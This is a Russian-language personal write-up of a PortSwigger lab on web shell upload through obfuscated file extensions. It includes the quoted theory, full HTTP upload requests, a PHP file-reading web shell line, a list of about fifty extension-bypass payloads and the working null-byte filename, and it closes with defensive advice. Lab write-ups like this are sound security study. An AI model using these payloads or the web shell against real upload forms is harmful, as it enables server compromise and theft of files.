


#### Обфускациование расширений файлов

Even the most exhaustive blacklists can potentially be bypassed using classic obfuscation techniques. Let's say the validation code is case sensitive and fails to recognize that `exploit.pHp` is in fact a `.php` file. If the code that subsequently maps the file extension to a MIME type is **not** case sensitive, this discrepancy allows you to sneak malicious PHP files past validation that may eventually be executed by the server.

Вы также можете достичь аналогичных результатов, используя следующие методы:

- Предоставьте несколько расширений. В зависимости от алгоритма, используемого для анализа имени файла, следующий файл может быть интерпретирован либо как файл PHP, либо как образ JPG:`exploit.php.jpg`
- Добавьте следние символы. Некоторые компоненты удаляют или игнорируют пробелы, точки и тому подобное:`exploit.php.`
- Попробуйте использовать кодировку URL-адресов (или двойную кодировку URL-адресов) для точек, косых косых и обратных косых чах. Если значение не декодируется при проверке расширения файла, а позже декодируется на стороне сервера, это также может позволить вам загрузить вредоносные файлы, которые в противном случае были бы заблокированы:`exploit%2Ephp`
- Add semicolons or URL-encoded null byte characters before the file extension. If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, for example, this can cause discrepancies in what is treated as the end of the filename: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
- Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.

Other defenses involve stripping or replacing dangerous extensions to prevent the file from being executed. If this transformation isn't applied recursively, you can position the prohibited string in such a way that removing it still leaves behind a valid file extension. For example, consider what happens if you strip `.php` from the following filename:

`exploit.p.phphp`

-------

лаба https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension

Некоторые расширения файлов занесены в черный список
задание: нужно вытащить данные из /home/carlos/secret

-------


на сайте - есть форму для загрузки картинок


в html вижу, что скорее всего сервер будет требовать тип jpg  
вот кусок html этой стр - что выше на скрине
```html
<p>

</p>
```

и вот мой запрос на загрузку svg файла на сервер
успешно загрузил svg файл на сервер - 
```http
POST /my-account/avatar HTTP/2
Host: 0a4100330353e7488062bcb7006c00f4.web-security-academy.net
Cookie: session=PWFFnSbDMdV4G4lsTXiZd7m0bNiIFToi
Content-Length: 20150
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0afc002004dca252803df817000e0068.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryujFadS2mkDYZPDCW
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0afc002004dca252803df817000e0068.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryujFadS2mkDYZPDCW
Content-Disposition: form-data; name="avatar"; filename="Frame 14.jpg"
Content-Type: image/jpg

<svg width="136" height="136" viewBox="0 0 136 136" fill="none" xmlns="http://www.w3.org/2000/svg">
<g clip-path="url(#clip0_129_28)">
<rect width="136" height="136" fill="white"/>
<path d="M0 68C0 30.4446 30.4446 0 68 0C105.555 0 136 30.4446 136 68C136 105.555 105.555 136 68 136C30.4446 136 0 105.555 0 68Z" fill="url(#paint0_linear_129_28)" fill-opacity="0.2"/>
<path d="M0 68C0 30.4446 30.4446 0 68 0C105.555 0 136 30.4446 136 68C136 105.555 105.555 136 68 

...   здесь сам svg файл (обрезал его для отчета)   ...

ar_129_28" x1="34.4658" y1="102.508" x2="42.8616" y2="141.434" gradientUnits="userSpaceOnUse">
<stop offset="1"/>
</linearGradient>
<linearGradient id="paint1_linear_129_28" x1="68.0548" y1="-34.6861" x2="68.0548" y2="107.54" gradientUnits="userSpaceOnUse">
<stop stop-color="#F5F5F5"/>
<stop offset="0.452924" stop-color="#44A050"/>
<stop offset="1" stop-color="#171A17"/>
</linearGradient>
<clipPath id="clip0_129_28">
<rect width="136" height="136" fill="white"/>
</clipPath>
</defs>
</svg>

------WebKitFormBoundaryujFadS2mkDYZPDCW
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryujFadS2mkDYZPDCW
Content-Disposition: form-data; name="csrf"

XFDogtsQa01jfgdFdOxyuTJgk1v1XqQP
------WebKitFormBoundaryujFadS2mkDYZPDCW--

```

ну и по этому запросу можно получить с сервера мою загруженную картинку
`GET /files/avatars/Frame%2014.jpg HTTP/2`


------

apache и nginx по умолчанию настроены на выполнение php, потому что это основной язык для веба на многих хостингах  
python и js обычно не выполняются напрямую сервером - для python нужен wsgi, для js нужен node.js

---------

------

пробую прокинуть веб шел через php

`<?php echo file_get_contents('/home/carlos/secret'); ?>`


запрос
GET /files/avatars/Frame%2014.jpg HTTP/2

ответ  200 просто текстом
`<?php echo file_get_contents('/home/carlos/secret'); ?>`
так как я отправляю расширение filename="Frame 14.jpg"
а нужно выполнить php
filename="Frame 14.php"

но такое расширение Frame 14.php  блокируется! (403 Forbidden)

-----------

пробую обфусцировать! вот здесь базовые пейлоады [[0_THEORY_File-Upload_]]

```c
"Frame 14.jpg.ph%70"  = блок
"Frame 14.jpg.php"    = блок
"Frame 14.jpg.phpp"    = блок
"Frame 14.jpg.pphpp"    = блок
"Frame 14.php."     = блок
"Frame 14.jpg.php."  = блок
"Frame 14.jpg.php"  = блок
Frame 14%2Ephp"    = блок
Frame 14.asp;." = блок
"Frame 14.asp%00.php"   = блок
"Frame 14.p.phphp"  = блок
"Frame 14.p.pHp"  = блок

надоело тыкать - запускаю туррбо интрудер!

.php
.pHP
.Php
.PHP5
.phtml
.pht
.php. .
.php\x20
.php\x0A
.php\x0D
.php\x09
.php%20
.php%0a
.php%0d%0a
.php%00
.php%3b
.php%3F
.php%00.jpg
.php.jpg
.php%23
.php;.jpg
.php;.png
.php%5c
.php%2e%2e%2f
.php..jpg
.php3
.php4
.php5
.php7
.phps
.phar
.phtm
.%c0%ae.php
.%c4%ae.php
.%c0%2e.php
.%e5%98%8e.php
.jpg.ph%70
.jpg.p%68p
.jpg.p%68%70
.jpg.%70%68%70
.jpg.php
.jpg.phpp
.jpg.pphpp
.php.
.jpg.php.
%2Ephp
.asp;.
.asp%00.php
.p.phphp
.p.pHp

(список - быстро сделал через ИИ)
```

сразу 5 вариантов стработало!
```c
filename="Frame 14.php;.png"    200
filename="Frame 14.php..jpg"    200
filename="Frame 14.php%00.jpg"    200  вот этот варик сработал!!!!!!
filename="Frame 14.php.jpg"    200
filename="Frame 14.php;.jpg"    200

```




----------

пробую загрузить  файл
`Content-Disposition: form-data; name="avatar"; filename="Frame%2014.php;.png"`
скачиваю 
`GET /files/avatars/Frame%2014.php;.png HTTP/2`
ответ  = просто текст!
`<?php echo file_get_contents('/home/carlos/secret'); ?>`

---

пробую остальные сработавшие варианты

запрос
```http
POST /my-account/avatar HTTP/2

.. // ..

------WebKitFormBoundaryZIUytAS2i6ZAzNSh
Content-Disposition: form-data; name="avatar"; filename="Frame%2014.php%00.jpg"
Content-Type: image/svg+xml

<?php echo file_get_contents('/home/carlos/secret'); ?>

------WebKitFormBoundaryZIUytAS2i6ZAzNSh
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryZIUytAS2i6ZAzNSh
Content-Disposition: form-data; name="csrf"

NItw6XwA3ezqJXISwjF9jwlxd9WvhMnI
------WebKitFormBoundaryZIUytAS2i6ZAzNSh--

```

сработало!!!!! ура! епта

`filename="Frame 14.php%00.jpg" `   200  вот этот варик сработал!!!!!! с нул байтом! и двойным расширением

вот флаг mRELAoADVppo2vuDGW1wbl6rkX4wzMGy




--------

#### выводы по лабе

Cервер использовал черный список расширений, но его можно было обмануть через обфускацию !

сначала я пытался загрузить обычный .php и получил 403 - значит расширение заблокировано  

тогда я (сперва вручную), но потом - запустил интрудер и перебрал кучу вариантов обфускации из теории  


сработал null-байт в комбинации с двойным расширением - f`ilename="Frame 14.php%00.jpg" ` 

сервер увидел .jpg в конце и пропустил проверку, а при сохранении null-байт обрезал имя до .php  

в итоге на сервере оказался файл Frame `14.php` с моим кодом, который выполнился и отдал секрет


#### суть
1 черный список можно обойти через null-байт инъекцию %00  
2 сервер проверял расширение по последней точке, но при сохранении null-байт обрезал строку  
3 валидация на разных уровнях (PHP и C/C++) работает по-разному  
4 двойное расширение .php.jpg тоже сработало, но null-байт оказался рабочим  
5 интрудер помог быстро перебрать десятки вариантов обфускации (список - быстро сделал через ИИ)

##### как защититься  
использовать белый список разрешенных расширений, а не черный  

никогда не доверять именам файлов от пользователя - генерировать свои случайные имена  

обрезать/ убирать/блокировать null-байты и другие опасные символы при обработке  

использовать функции для безопасной работы с файловыми путями  

проверять реальное содержимое файла, а не только расширение  

хранить файлы вне веб-рута и отдавать через скрипт с проверкой mime-типа